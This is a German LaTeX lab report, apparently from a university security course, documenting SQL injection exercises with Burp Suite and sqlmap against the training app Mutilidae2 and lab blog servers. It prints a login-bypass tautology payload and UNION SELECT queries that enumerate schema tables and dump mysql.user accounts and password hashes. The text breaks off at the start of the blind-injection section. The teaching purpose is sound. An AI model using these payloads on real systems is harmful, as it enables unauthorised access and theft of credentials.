\section{SQL-Injection}
\textit{Machen Sie sich mit Spider, Proxy Repeater und Intruder der Burp Suite vertraut. Dokumentieren Sie Ihr Vorgehen! Sie können bei dieser Aufgabe für einen schnellen Überblick über das System auch den Zed Attack Proxy verwenden. Es sei aber gleich vorab angemerkt, dass Sie damit nicht alle Aufgaben lösen können werden, jedenfalls nicht ohne den Proxy entsprechend anzupassen. Für diese Aufgabe
haben Sie auch ein neues, angepasstes Kali erhalten, was alle benötigen Tools enthält (ZAP, sqlmap, weitere Tools).}

\subsection{Zum warm werden}
\textit{Nutzen Sie die Burp Suite, um eine SQL Injection gegen den Admin Login von Mutilidae2 durchzuführen. Dieser Server dient aber nur als Übungsziel und ist nicht, was Sie final angreifen sollen.}

\textit{In Moodle finden Sie dazu die Datei Injections, um mittels Intruder die Anfälligkeiten des Servers auf diesen Angriff zu überprüfen.}\\

\noindent Statt \texttt{Intruder} wird der \texttt{Repeater} verwendet. In \autoref{fig:sql_syntax_error} ist ein Login-Versuch mit einer missglückten SQL-Injection zu sehen.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/a/sql_syntax_error.png}
    \caption{Burb Suite: Failed login with Syntax Error}
    \label{fig:sql_syntax_error}
\end{figure} \noindent
Diese unglückliche Fehlermeldung, gewährt uns Einblick in den Aufbau der im Backend verwendeten (und bereits vermuteten) SQL-Anfrage. \autoref{code:sql-query} zeigt diese nochmals formatiert.
\begin{lstlisting}[language=SQL, caption={SQL-Abfrage im Backend}, label={code:sql-query}]
    SELECT username
    FROM accounts
    WHERE username = '[USER]'
    AND password = '[PASSWORD]'
    ;
\end{lstlisting}
Eine mögliche Injection wäre also
\begin{center}
    \texttt{password := \textbf{passwort' OR '1'='1}}, mit \texttt{\textbf{Admin}} als Nutzernamen,
\end{center}
was injiziert zur SQL-Abfrage in \autoref{code:sql-query-injected} führt.
\begin{lstlisting}[language=SQL, caption={Injected SQL-Query}, label={code:sql-query-injected}]
    SELECT username
    FROM accounts
    WHERE username = 'Admin'
    AND password = 'password:passwort' OR '1'='1'
    ;
\end{lstlisting}
Die nun entstandene Tautologie bei der Boolean-Bedingung für \texttt{password} sorgt dafür, dass die Abfrage immer wahr ist, was zu einem Login führt, wie in \autoref{fig:sqli_login_success} zu sehen. 
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/a/sqli_login_success.png}
    \caption{Burb Suite: Successful login with credentials}
    \label{fig:sqli_login_success}
\end{figure} \noindent
Die verwendete SQL-Injection kann ebenfalls in einem echten Browser verwendet werden. \autoref{fig:admin_loggedin} zeigt den erfolgreichen Login unter Verwendung der genannten SQL-Injection.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/a/admin_loggedin.png}
    \caption{Browser: Admin-Login Success}
    \label{fig:admin_loggedin}
\end{figure} \noindent
Wird alternativ der \texttt{Intruder} verwendet, kann der hier gezeigte händische Vorgang automatisiert werden, indem verschiedene mögliche Eingaben (Datei \texttt{Injections} von Moodle) durchprobiert werden, bis ein Erfolg vorliegt.


\subsection{Angriff gegen reales Szenario}
\textit{Öffnen Sie die Webseite unter 192.168.1.161. Bei diesem Szenario ist es gestattet automatische Tools wie sqlmap und ZAP zu verwenden. Testen Sie aber durchaus auch manuell und vergleichen Sie ihre Ergebnisse von mit denen der automatischen Tools.}

Nun ging es gegen den Blog-Server auf der Adresse 192.168.1.161. Nach einigen Tests konnten wir feststellen, dass hier eine URL-basierte SQL-Injektion möglich ist. Dies wurde entdeckt, indem erneut einfache SQL-Injection-Statements in die URL eingefügt wurden. Dadurch konnten zusätzliche Inhalte angezeigt werden, die ursprünglich nicht auf der Webseite vorhanden waren, wie in der folgenden Abbildung zu sehen ist:
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/b/Zusatzinhalt.png}
	\caption{Zusätzlicher Inhalt durch SQL-Injektion}
	\label{fig:sqluser315}
\end{figure}
\noindent
Somit hatten wir den Bereich gefunden, den wir manipulieren konnten, um weitere Inhalte aus der Datenbank auszulesen. Mithilfe weiterer Recherche und unter Zuhilfenahme der Fehlermeldungen bei fehlerhaften SQL-Statements ergab sich folgender Befehl, mit dem ein Überblick über die vorhandenen Tabellen gewonnen werden konnte:
\begin{verbatim}
	id=1 AND 1=2 UNION SELECT 1, table_name,3,4,5,6,7,8,9,10,11,12,13
	FROM information_schema.tables;--
\end{verbatim}
Um Informationen über die Spalten einzelner Tabellen zu erhalten, wurde die Anfrage entsprechend angepasst:
\begin{verbatim}
	UNION SELECT 1, column_name,3,4,5,6,7,8,9,10,11,12,13
	FROM information_schema.columns
	WHERE table_name='Tabellenname';--
\end{verbatim}
Das eigentliche Ziel bestand jedoch darin, Benutzerkonten sowie die zugehörigen Passwort-Hashes auszulesen.\\
Dazu wurde die Anfrage erneut leicht modifiziert:
\begin{verbatim}
	id=15 AND 1=2 UNION SELECT 1, group_concat(user),3,4,5,6,7,8,9,10,11,12,13
	FROM mysql.user;--
\end{verbatim}
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/b/User_DB}
	\caption{Benutzer der Datenbank durch SQL-Injektion}
	\label{fig:sqlUSER}
\end{figure}
\noindent
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe7/b/PW_DB}
	\caption{Passwort-Hashes durch SQL-Injektion}
	\label{fig:sqlPW}
\end{figure}
\noindent
Damit konnten die wesentlichen Informationen aus der Datenbank erfolgreich ausgelesen werden.

\subsection{Blind Injection}
\textit{Das inhaltlich gleiche Blog hat die vorherige Schwachstelle geschlossen und die IP gewechselt (192.168.1.162). Finden Sie dennoch einen Weg sich bspw. den Hashwert des mysql.user root Accounts und den des Admins der Webseite zu sichern? Vorab: es handelt sich hier um eine Blind Injection, erwarten Sie also keine direkte Rückgabe von Werten auf der Webseite. Auch könnten automatische Tools hier Probleme bekommen. Überlegen Sie, wo Blind Injections auf der Webseite vorkommen könnten, auf Basis, wie vermutlich im Hintergrund die Abfrage ausgeführt wird, um die Menge der zu prüfenden Formulare und Abfragen einzugrenzen. Den Aufbau der Datenbank sollten Sie ja aus der vorherigen Teilaufgabe mitgenommen haben.}\\

\noindent Dieser Angriff wird via \texttt{sqlmap} durchgeführt. Gestartet wird mit der parametrisierten Form, zu sehen von \autoref{fig:sql_map_auf_c_1} bis \autoref{fig:sql_map_erfolg}.
\begin{figure}[H]
    \centering
